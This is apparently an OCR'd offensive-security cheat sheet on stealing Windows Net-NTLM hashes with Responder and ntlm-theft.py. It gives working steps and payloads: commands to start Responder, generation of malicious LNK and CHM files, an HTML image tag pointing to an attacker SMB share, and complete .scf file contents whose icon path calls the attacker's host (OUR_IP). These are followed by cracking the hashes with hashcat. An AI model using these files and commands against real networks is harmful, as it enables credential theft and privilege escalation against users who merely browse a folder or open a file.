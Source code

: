 ## Net-NTLM Hash stealing with Responder

## Tools synergizing with Responder: ntlm-theft.py

### Requirements: The user you want to escalate to should react with your malicious file/responder SMB server in a way that it calls back to your responder listener to dump his Net-NTLM hash to crack with hashcat.

### Usage:

#### sudo responder -I tun0 (Turn on responder)

## There are various ways to steal hashes with responder, but they have all similar philosophy behind the technique

### .LNK Files

#### 1) python3 ntlm-theft.py -g all -s OUR_IP -f FOLDER (Generates any malicious file it can make (LNK included) all inside the specified folder name)

#### 2) sudo responder -I tun0 (Start responder)

#### 3) Upload malicious file to the target SMB server/target machine (Depends on the context of the use case your are dealing with)

#### 4) PROFIT

### .CHM Files

#### 1) Create an HTML document that points to your SMB server

#### <html<
####   <body<
####     <img src=\\OUR_IP\share\WHATEVER.png /<
####        </body<
#### </html<

#### 2) On a windows machine, use the HTML Help Workshop https://www.microsoft.com/en-us/download/confirmation.aspx?id=21138

#### 3) Open HTML Help Workshop then go to: File -> New -> Project. Save at any folder you like

#### 4) In the next window, click the box to include HTML files

#### 5) Select your created HTML file here

#### 6) In the tool bar, click the compile button. Then when prompted, click compile.

#### 7) Copy your compiled .chm file to your linux machine, then upload it to your target machine.

#### 8) PROFIT!

### .SCF Files

#### 1) Create an .scf file that points to your SMB server

#### [Shell]
#### Command=2
#### IconFile=\\OUR_IP\share\pwn.ico
#### [Taskbar]
#### Command=ToggleDesktop

#### 2) sudo responder -I INTERFACE (Start responder)

#### 3) Upload the .scf file to a writebale SMB share

#### 4) Crack the hash you captured with hashcat
